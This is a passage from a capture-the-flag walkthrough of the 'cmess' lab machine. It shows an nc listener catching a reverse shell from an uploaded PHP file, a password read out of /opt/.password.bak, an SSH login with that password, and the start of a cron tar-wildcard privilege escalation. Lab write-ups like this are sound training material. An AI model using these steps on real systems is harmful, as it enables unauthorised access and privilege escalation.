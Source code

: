 Start a reverse shell listener, browse to `http://cmess.thm/tmp/tgihf.php`, and catch the reverse shell.

```bash
$ sudo nc -nlvp 443
listening on [any] 443 ...
connect to [10.6.31.77] from (UNKNOWN) [10.10.247.238] 47852
Linux cmess 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 14:32:30 up 10 min,  0 users,  load average: 0.00, 0.10, 0.12
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

---

## `andre`'s Backup Password

After gaining situational awareness on the machine and running through several manual privilege escalation checks, there wasn't anything indicating a path from `www-data` to either of the two users with console access, `andre` or `root`.

Running [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) as `www-data` reveals an interesting, non-standard backup file: `/opt/.password.bak`. It contains `andre`'s "backup" password, `UQfsdCB7aAP6`.

```bash
www-data@cmess:/dev/shm/tgihf$ cat /opt/.password.bak
andres backup password
UQfsdCB7aAP6
```

---

## `cron` Job Wildcard Privilege Escalation

Use the credential `andre`:`UQfsdCB7aAP6` to accesss the target via SSH. Grab the user flag from `/home/andre/user.txt`.

```bash
$ ssh andre@cmess.thm
andre@cmess.thm's password:
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-142-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Last login: Thu Feb 13 15:02:43 2020 from 10.0.0.20
andre@cmess:~$ ls
backup  user.txt
```

Enumerating the system's `cron` jobs reveals that `root` is running a job every two minutes that uses `tar` to archive all the files in `/home/andre/backup` to `/tmp/andre_backup.tar.gz`. It contains a wildcard character (`*`), which can be abused to execute a shell script as `root`.

